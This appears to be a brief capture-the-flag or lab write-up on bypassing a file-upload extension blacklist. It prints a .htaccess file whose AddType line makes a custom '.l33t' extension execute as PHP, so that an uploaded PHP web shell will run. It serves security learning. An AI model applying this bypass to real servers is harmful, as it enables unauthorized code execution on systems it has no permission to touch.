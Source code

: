 # Web shell upload via extension blacklist bypass

If there is a blacklist, and we can upload a .htaccess, we can set a custom extension to be interpreted and run as php. So first, we create a .htaccess:
> Note: `For this challenge, only the last line is necesarry.`
```
php_flag file_uploads On
php_flag engine On

php_value upload_max_filesize 1000M
php_value post_max_size 1000M

AddType application/x-httpd-php .l33t
``` 
After that, we can upload a normal php shell, but wiht .l33t extension.

